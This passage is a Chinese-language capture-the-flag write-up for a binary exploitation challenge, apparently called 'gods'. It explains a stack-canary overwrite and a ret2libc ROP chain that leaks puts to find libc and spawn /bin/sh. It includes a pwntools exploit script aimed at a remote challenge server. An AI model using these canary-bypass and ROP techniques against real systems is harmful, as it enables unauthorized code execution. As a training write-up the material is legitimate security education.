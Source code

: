 因此，储存 canary 的地址 fs:0x28 与栈的偏移也是固定的，计算出偏移，当 v2 为 272 时可以成功将其覆盖，覆盖为 0xffffffffffffff。

当然，还有一次填写 god 的机会，可以填上自己心中的 god 捏（>_<）

god 填完之后，要输入自己的名字，可以写入 72 个字节，而存储区域仅有 24 字节，最高 8 字节为 canary ，覆盖为改写的 canary
后面的就是写个 gadget 地址（在 __libc_csu_init 里面，把 pop r15 拆开），got 表里面随便一个地址，put 函数地址，（将 libc 的基址算出），再加一个 vuln 函数地址返回 vuln 函数。

注意此时 edit_time 值已经为 0，故不能在添加 god 了，只能直接写自己名字。

canary 是不会变的，也溢出一下，放入'/bin/sh'的地址，再次返回到 gadget ，将其传入 rdi ， 再返回到 system 取得 shell

注意，system 函数中有一条汇编指令会检查栈是否对齐（即 rsp 是否是 0x10 的倍数），这里直接返回到 system 是没有对齐的，返回到一个 ret 指令的地址，再通过 ret 返回 system 就能对齐了
以下为 exp：

```python

#! python3
from pwn import *

#p = process('./gods')
p = remote('pwn.archive.xdsec.chall.frankli.site', 10056)
elf = ELF('./gods')
libc = ELF('./libc-2.31.so')

off_str = next(libc.search(b'/bin/sh'))
off_system = libc.symbols['system']

off_puts = libc.symbols['puts']
got_puts = elf.got['puts']
plt_puts = elf.symbols['puts']

p.recvuntil(b'\n')
p.sendline(b'yes')
p.recvuntil(b'k: ')

payload1 = p8(0xff)*7



p.sendline(b'272')
p.sendline(payload1)

p.recvuntil(b'k: ')

p.sendline(b'2')
p.sendline(b'kkk')


p.recvuntil(b'?\n')

payload2 = b'a'*24 + p8(0xff)*7 + p8(0) + p64(0) + p64(0x4015d3) + p64(got_puts) + p64(plt_puts) + p64(0x40123a)

p.sendline(payload2)

p.recvuntil(b'\n')
addr_puts = p.recv(6)
p.recv(1)
addr_puts = addr_puts + p8(0)*2
addr_puts = u64(addr_puts)
addr_libc = addr_puts - off_puts

addr_str = addr_libc + off_str
addr_system = addr_libc + off_system
```
